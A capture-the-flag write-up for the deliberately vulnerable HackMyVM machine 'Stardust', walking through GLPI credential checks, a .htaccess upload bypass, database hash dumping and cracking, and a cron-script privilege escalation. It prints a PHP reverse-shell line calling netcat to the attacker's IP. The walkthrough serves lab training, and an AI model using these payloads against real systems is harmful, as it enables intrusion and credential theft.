

# writeup stardust hackmyvm

## machine info
- VmName : Stardust
- Creator : cromiphi
- Level : medium
- Link : [https://downloads.hackmyvm.eu/stardust.zip](https://downloads.hackmyvm.eu/stardust.zip)

## walkthrough
### summary
- get glpi user and password
- log in the web site (GLPI)
- get a subdomain (intranetik.stardust.hmv) from the web site (Assistance > Tickets)
- upload files (.htaccess and php reverse shell) to the subdomain web site (Stardust File Upload) 
- get a user shell (www-data)
- get database user and password
- get a password hash (tally) from intranetikDB database
- get a user shell (tally)
- modify a /opt/config.json file
- get a backup.tar file
- get a ssh private key file (root)
- get a root shell

### get machine ip address

I could get ip address and hostname from the stardust vm.


### scan open ports
```
┌──(kali㉿kali)-[~/hackmyvm/stardust]
└─$ nmap -T4 -sC -sV -p- -oN nmap.log 192.168.0.44 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-11 03:08 EDT
Nmap scan report for pickle (192.168.0.44)
Host is up (0.00085s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 db:f9:46:e5:20:81:6c:ee:c7:25:08:ab:22:51:36:6c (RSA)
|   256 33:c0:95:64:29:47:23:dd:86:4e:e6:b8:07:33:67:ad (ECDSA)
|_  256 be:aa:6d:42:43:dd:7d:d4:0e:0d:74:78:c1:89:a1:36 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.23 seconds
```

### get a user shell
- check a web server (port 80)
    
    - whatweb
        ```
        ┌──(kali㉿kali)-[~/hackmyvm/stardust]
        └─$ whatweb http://192.168.0.44    
        http://192.168.0.44 [200 OK] Apache[2.4.56], Cookies[glpi_40d1b2d83998fabacb726e5bc3d22129], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[192.168.0.44], PasswordField[fieldb64ad002de3a04], PoweredBy[Teclib], Script[text/javascript], Title[Authentication - GLPI], X-UA-Compatible[IE=edge]
        ```
    - nikto
        ```
        ┌──(kali㉿kali)-[~/hackmyvm/stardust]
        └─$ nikto -h 192.168.0.44 
        - Nikto v2.5.0
        ---------------------------------------------------------------------------
        + Target IP:          192.168.0.44
        + Target Hostname:    192.168.0.44
        + Target Port:        80
        + Start Time:         2023-07-11 03:11:41 (GMT-4)
        ---------------------------------------------------------------------------
        + Server: Apache/2.4.56 (Debian)
        + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
        + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
        + /: Cookie glpi_40d1b2d83998fabacb726e5bc3d22129 created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
        + /bin/: Directory indexing found.
        + /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
        + /: DEBUG HTTP verb may show server debugging information. See: https://docs.microsoft.com/en-us/visualstudio/debugger/how-to-enable-debugging-for-aspnet-applications?view=vs-2017
        + /inc/config.php: Bookmark4U v1.8.3 include files are not protected and may contain remote source injection by using the 'prefix' variable. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1253
        + /config/: Directory indexing found.
        + /config/: Configuration information may be available remotely.
        + /bin/: This might be interesting.
        + /css/: Directory indexing found.
        + /css/: This might be interesting.
        + /files/: Directory indexing found.
        + /files/: This might be interesting.
        + /install/: This might be interesting.
        + /lib/: This might be interesting.
        + /pics/: Directory indexing found.
        + /pics/: This might be interesting.
        + /public/: This might be interesting.
        + /src/: Directory indexing found.
        + /README.md: Readme Found.
        + 8910 requests: 0 error(s) and 21 item(s) reported on remote host
        + End Time:           2023-07-11 03:12:09 (GMT-4) (28 seconds)
        ---------------------------------------------------------------------------
        + 1 host(s) tested
        ```
    - [GLPIScan](https://github.com/Digitemis/GLPIScan.git)
        ```
        [+] Performing Credential check
        ===============================

        [+] Valid user account found : glpi:****
        [+] Valid user account found : post-only:postonly
        [+] Valid user account found : tech:tech
        [+] Valid user account found : normal:normal

        ```
        I could get some glpi users and passwords.

- check the glpi web site
    - rabbit hole
        
        I could not install a plugin (shellcommands) from the glpi marketplace. 😿
    - get a subdomain (intranetik.stardust.hmv)
        
        I modified /etc/hosts file.
- check the subdomain web site (Stardust File Upload)
    
    I found I can upload a file with .htaccess extension after trying many things.
    So, I made two files and uploaded them.
    - .htaccess
        ```
        AddType application/x-httpd-php .htaccess
        ```
        
    - a.htaccess
        ```
        #<?php exec("nc -e /bin/bash 192.168.0.4 1234");?>
        ```
        
- get a user shell (www-data)
    
- get database user and password
    ```
    www-data@stardust:/var/www/html/config$ cat config_db.php
    <?php
    class DB extends DBmysql {
    public $dbhost = 'localhost';
    public $dbuser = 'glpi';
    public $dbpassword = '**********';
    public $dbdefault = 'glpi';
    public $use_utf8mb4 = true;
    public $allow_myisam = false;
    public $allow_datetime = false;
    public $allow_signed_keys = false;
    }
    ```
- get a password hash (tally)
    ```
    www-data@stardust:/var/www/html/config$ mysql -uglpi -p**********
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 111
    Server version: 10.5.19-MariaDB-0+deb11u2 Debian 11

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | glpi               |
    | information_schema |
    | intranetikDB       |
    +--------------------+
    3 rows in set (0.001 sec)

    MariaDB [(none)]> use intranetikDB;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    MariaDB [intranetikDB]> show tables;
    +------------------------+
    | Tables_in_intranetikDB |
    +------------------------+
    | users                  |
    +------------------------+
    1 row in set (0.001 sec)

    MariaDB [intranetikDB]> select * from users;
    +----+-----------+--------------------------------------------------------------+
    | id | username  | password                                                     |
    +----+-----------+--------------------------------------------------------------+
    |  1 | carolynn  | $2b$12$HRVJrlSG5eSW44VaNlTwoOwu42c1l9AnbpOhDvcEXVMyhcB46ZtXC |
    |  2 | chi-yin   | $2b$12$.sDM7vxQCe3nmOois5Ho4O1HkNEiz4UJ/9XEsYlnbH7Awlxfig3g2 |
    |  3 | tally     | $2b$12$***************************************************** |
    |  4 | jeraldine | $2b$12$gjwlFI7f1QABeZ5jKlbTh.L00oIBXxHOUH.Gah.SXnX4PPrLd0mI6 |
    |  5 | ishmael   | $2b$12$eEeCfKVkmFCvXjubRp.GhOKNTz0JoVXoKYCM3/kylN8AMzoDVEoWC |
    |  6 | hetty     | $2b$12$uu719jU2sXy.blBj2QEPR.7mg2UbVfL5eX9KM4aXV5rigHWjFGNvO |
    |  7 | yvan      | $2b$12$QJZj2WvvQU6c2GjpmW/Z9O0Ggudv5hhrREfqfJK7jjDWAa7.GoTM. |
    |  8 | nong      | $2b$12$JWqnC1emWOLZszg1bWX3her2xFp47ZLE5MEd0YitoUDbVHH6lBPHW |
    |  9 | ande      | $2b$12$03pXHnhLpgaGfeY72FtwJ.1T5IgCxHF.1PrPUVFySI4fIV3Gnykvq |
    | 10 | colleen   | $2b$12$ZwPxWr9.g5VoiFQfWUJtgeTuNcpzpD44BrOVRafrnXHIa3Pc9mK1C |
    | 11 | gussi     | $2b$12$f/05LxKgsAt6KNJ676sG/.90OvOMyUxuP2OdtZ9d8AnSmhP8ZIIA2 |
    | 12 | brandi    | $2b$12$wQKGmPPRclBk4KpT3e44q.EOIh.xki.70W62xDuPnybXKYeXOSd2u |
    | 13 | karrie    | $2b$12$bZVRUGzKjDGqOGKzWgcWUehPiwBseDScXfmsTZJb.r58Uc5uxFFUC |
    | 14 | maala     | $2b$12$D0kAwa0fGU055rUnPJHMLuuB0fHcGjKbjLw9oNi/IMFkbzP980fvS |
    | 15 | brittany  | $2b$12$hgjI3XifZTqfMCSM4TOqTObHNLNvkT0FhwiAJ7zr/GGLM58b4ieVC |
    +----+-----------+--------------------------------------------------------------+
    15 rows in set (0.001 sec)
    ```
- get a user shell (tally)
    ```
    ┌──(kali㉿kali)-[~/hackmyvm/stardust]
    └─$ john tally_hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 4096 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ******           (?)     
    1g 0:00:00:20 DONE (2023-07-11 07:48) 0.04904g/s 14.12p/s 14.12c/s 14.12C/s 0123456789..
    ******
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    ```
    www-data@stardust:/var/www/html/config$ su - tally
    Password: 
    tally@stardust:~$ ls -la
    total 32
    drwxr-xr-x 4 tally tally 4096 May  8 10:59 .
    drwxr-xr-x 3 root  root  4096 May  6 10:48 ..
    lrwxrwxrwx 1 root  root     9 May  6 10:48 .bash_history -> /dev/null
    -rw-r--r-- 1 tally tally  220 May  6 10:46 .bash_logout
    -rw-r--r-- 1 tally tally 3526 May  6 10:46 .bashrc
    drwxr-xr-x 3 tally tally 4096 May  7 09:47 .local
    -rw-r--r-- 1 tally tally  807 May  6 10:46 .profile
    drwx------ 2 tally tally 4096 May  8 10:09 .ssh
    -rwx------ 1 tally tally   33 May  7 09:40 user.txt
    tally@stardust:~$ cat user.txt 
    ********************************
    ```

### get a root shell
I found files with ACLs.
- run [linpeas.sh](https://github.com/carlospolop/PEASS-ng)
    ```
    ╔══════════╣ Files with ACLs (limited to 50)
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls                                                                                        
    # file: /opt                                                                                                                                                   
    USER   root      rwx     
    user   www-data  ---     
    GROUP  root      r-x     
    mask             r-x     
    other            r-x     

    # file: /opt/config.json
    USER   root      rw-     
    user   tally     rw-     
    GROUP  root      r--     
    mask             rw-     
    other            r--  
    ```
- check /opt/config.json
    ```
    tally@stardust:/opt$ ls -la
    total 16
    drwxr-xr-x+  2 root root 4096 May  8 11:02 .
    drwxr-xr-x  18 root root 4096 May  5 05:46 ..
    -rw-rw-r--+  1 root root   49 May  8 11:02 config.json
    -rwxr-xr-x   1 root root  607 May  7 09:49 meteo

    tally@stardust:/opt$ cat config.json 
    {
    "latitude":  -18.48,
    "longitude": -70.33
    }
    ```
- check /opt/meteo
    ```
    tally@stardust:/opt$ file meteo 
    meteo: Bourne-Again shell script, ASCII text executable

    tally@stardust:/opt$ cat meteo
    #! /bin/bash

    #meteo
    config="/opt/config.json"
    latitude=$(jq '.latitude' $config)
    longitude=$(jq '.longitude' $config)
    limit=1000

    #sys
    web="/var/www/intranetik"
    users="/home/tally"
    root="/root"
    dest="/var/backups"

    #get rain elevation 
    elevation=$(curl -s "https://api.open-meteo.com/v1/forecast?latitude=$latitude&longitude=$longitude&hourly=rain" |jq .elevation)

    if [[ $elevation -gt $limit ]] ; then
    echo "RAIN ALERT !"
    tar -cf $dest/backup.tar $web >/dev/null
    tar -rf $dest/backup.tar $users >/dev/null
    tar -rf $dest/backup.tar $root >/dev/null
    echo "BACKUP FINISHED"
    else
    echo "Weather is cool !"
    fi
    ```
After reading the shell script, I found I only need to set coordinates (latitude and longitude) with an elevation greater than 1000.
So, I looked up the coordinates of Mt.Fuji and modified /opt/config.json file.
- run /opt/meteo
    ```
    tally@stardust:/opt$ cat config.json 
    {
    "latitude":  35.3606,
    "longitude": 138.7275
    }
    tally@stardust:/opt$ ./meteo 
    RAIN ALERT !
    tar: /var/backups/backup.tar: Cannot open: Permission denied
    tar: Error is not recoverable: exiting now
    tar: /var/backups/backup.tar: Cannot read: Bad file descriptor
    tar: At beginning of tape, quitting now
    tar: Error is not recoverable: exiting now
    tar: /var/backups/backup.tar: Cannot read: Bad file descriptor
    tar: At beginning of tape, quitting now
    tar: Error is not recoverable: exiting now
    BACKUP FINISHED
    ```
Because of failure to generate backup, I checked if there is a schedule job.
- run [pspy64](https://github.com/DominicBreuker/pspy)
    ```
    2023/07/11 14:15:43 CMD: UID=0    PID=1      | /sbin/init 
    2023/07/11 14:16:01 CMD: UID=0    PID=28381  | /usr/sbin/CRON -f 
    2023/07/11 14:16:01 CMD: UID=0    PID=28382  | /usr/sbin/CRON -f 
    2023/07/11 14:16:01 CMD: UID=0    PID=28383  | /bin/sh -c /opt/meteo 
    2023/07/11 14:16:01 CMD: UID=0    PID=28384  | /bin/bash /opt/meteo 
    2023/07/11 14:16:01 CMD: UID=0    PID=28385  | /bin/bash /opt/meteo 
    2023/07/11 14:16:01 CMD: UID=0    PID=28386  | /bin/bash /opt/meteo 
    2023/07/11 14:16:01 CMD: UID=0    PID=28388  | /bin/bash /opt/meteo 
    2023/07/11 14:16:01 CMD: UID=0    PID=28387  | /bin/bash /opt/meteo 
    2023/07/11 14:16:09 CMD: UID=0    PID=28390  | /bin/bash /opt/meteo 
    2023/07/11 14:16:09 CMD: UID=0    PID=28391  | /bin/bash /opt/meteo 
    2023/07/11 14:16:09 CMD: UID=0    PID=28392  | /bin/bash /opt/meteo 
    2023/07/11 14:16:26 CMD: UID=0    PID=28393  | 
    ```
I checked the backup directory and found a backup file (backup.tar).
- check /var/backups
    ```
    tally@stardust:/var/backups$ ls -la
    total 1184
    drwxr-xr-x  2 root root   4096 Jul 11 14:14 .
    drwxr-xr-x 12 root root   4096 May  4 19:09 ..
    -rw-r--r--  1 root root  40960 May  6 07:37 alternatives.tar.0
    -rw-r--r--  1 root root   1906 May  5 05:49 alternatives.tar.1.gz
    -rw-r--r--  1 root root   1772 May  4 19:10 alternatives.tar.2.gz
    -rw-r--r--  1 root root   1658 Feb  6 19:35 alternatives.tar.3.gz
    -rw-r--r--  1 root root  13464 May  6 08:46 apt.extended_states.0
    -rw-r--r--  1 root root   1546 May  5 18:40 apt.extended_states.1.gz
    -rw-r--r--  1 root root   1536 May  4 19:14 apt.extended_states.2.gz
    -rw-r--r--  1 root root   1023 May  4 19:07 apt.extended_states.3.gz
    -rw-r--r--  1 root root  51200 Jul 11 14:16 backup.tar
    -rw-r--r--  1 root root      0 May  8 10:10 dpkg.arch.0
    ```
So, I copied the backup file (backup.tar) to tmp directory and extracted it.
- extract backup.tar
    ```
    root/
    root/.ssh/
    root/.ssh/id_rsa
    root/.ssh/authorized_keys
    root/.bash_history
    root/.bashrc
    root/root.txt
    root/.local/
    root/.local/share/
    root/.local/share/nano/
    root/.profile
    ```
I could get a ssh private key (root) and a root flag. 😺
- get a root shell and a root flag
    ```
    ┌──(kali㉿kali)-[~/hackmyvm/stardust]
    └─$ ssh root@192.168.0.44 -i root_key                                                                                                                    130 ⨯
    Linux stardust.hmv 5.10.0-22-amd64 #1 SMP Debian 5.10.178-3 (2023-04-22) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    /usr/bin/xauth:  file /root/.Xauthority does not exist
    root@stardust:~# ls -la
    total 36
    drwx------  4 root root 4096 Jul 11 14:25 .
    drwxr-xr-x 18 root root 4096 May  5 05:46 ..
    -rw-------  1 root root  359 May  8 16:27 .bash_history
    -rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
    drwxr-xr-x  3 root root 4096 Feb  6 19:32 .local
    -rw-r--r--  1 root root  161 Jul  9  2019 .profile
    -rwx------  1 root root   33 Feb  6 19:34 root.txt
    drwx------  2 root root 4096 May  7 09:17 .ssh
    -rw-------  1 root root   58 Jul 11 14:25 .Xauthority
    root@stardust:~# cat root.txt 
    *******************************
    ```
